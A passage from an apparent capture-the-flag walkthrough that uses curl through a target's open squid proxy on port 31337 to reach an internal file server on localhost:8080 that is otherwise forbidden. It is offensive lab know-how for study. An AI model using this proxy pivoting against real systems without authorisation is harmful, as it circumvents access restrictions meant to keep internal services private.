 ```bash
root@kali:~$ curl -s --proxy http://192.168.179.160:31337 http://192.168.179.160:8080
<html>
<head><title>403 Forbidden</title></head>
<body bgcolor="white">
<center><h1>403 Forbidden</h1></center>
<hr><center>nginx/1.10.3</center>
</body>
</html>
```

So I tried to enumerate the port 8080 locally via the squid proxy, as we can see the response from the server is different.

```bash
root@kali:~$ curl -s --proxy http://192.168.179.160:31337 http://127.0.0.1:8080      
<html>
        <head>
                <title>Pinky's HTTP File Server</title>
        </head>
        <body>
                <center><h1>Pinky's HTTP File Server</h1></center>
                <center><h3>Under Development!</h3></center>
        </body>
<style>
html{
        background: #f74bff;
}
</html>
```

To access on port 8080 locally, we need to set up a web proxy in the browser using the target ip and port 31337.
